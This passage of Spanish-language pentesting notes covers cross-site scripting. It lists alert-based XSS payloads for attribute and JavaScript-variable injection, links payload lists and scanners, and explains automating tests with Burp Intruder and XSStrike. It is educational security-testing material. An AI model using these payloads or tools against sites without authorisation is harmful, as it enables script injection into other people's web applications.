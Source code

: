 con esto no podemos usar etiquetas `<script>` para nuestros payloads, aqui tenemos que ver la posibilidad de agregar atributos o eventos como payload:

```javascript
test" onmouseover="alert(1)
test" onclick="alert(1)
test" onkeydown="alert(1)
test" href="javascript:alert(1)
```

### XSS in JS variable (JS context)

puede que un punto de inyeccion sea una variable de JS:

![[Pasted image 20230223194854.png]]

podemos usar los siguientes payloads:

```javascript
';alert('XSS');//

'-alert(1)-'
```

## Diccionario de Payloads

[https://github.com/payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)

## Herramientas

[https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)
[https://github.com/rajeshmajumdar/BruteXSS](https://github.com/rajeshmajumdar/BruteXSS)
[http://xss-scanner.com/](http://xss-scanner.com/)
[https://tools.kali.org/web-applications/xsser](https://tools.kali.org/web-applications/xsser)
[https://github.com/DanMcInerney/xsscrapy](https://github.com/DanMcInerney/xsscrapy)

## Automatización

Podemos automatizar con burpsuite en la opcion del intruder, primero creamos un archivo con  varios payload XSS, colocamos como payload el **"id"** de la url, acrgamos el archivo de payload y lo ejecutamos 

### XSStrike

Descargar el repositorio.

Instalar requerimientos: (trabaja con python3)

```
pip3 install -r requirements
```

ejecucion:

```
python3 xsstrike.py -u <url>
```

url = https://...../id=1

- [USO XSStrike](https://github.com/s0md3v/XSStrike/wiki/Usage)
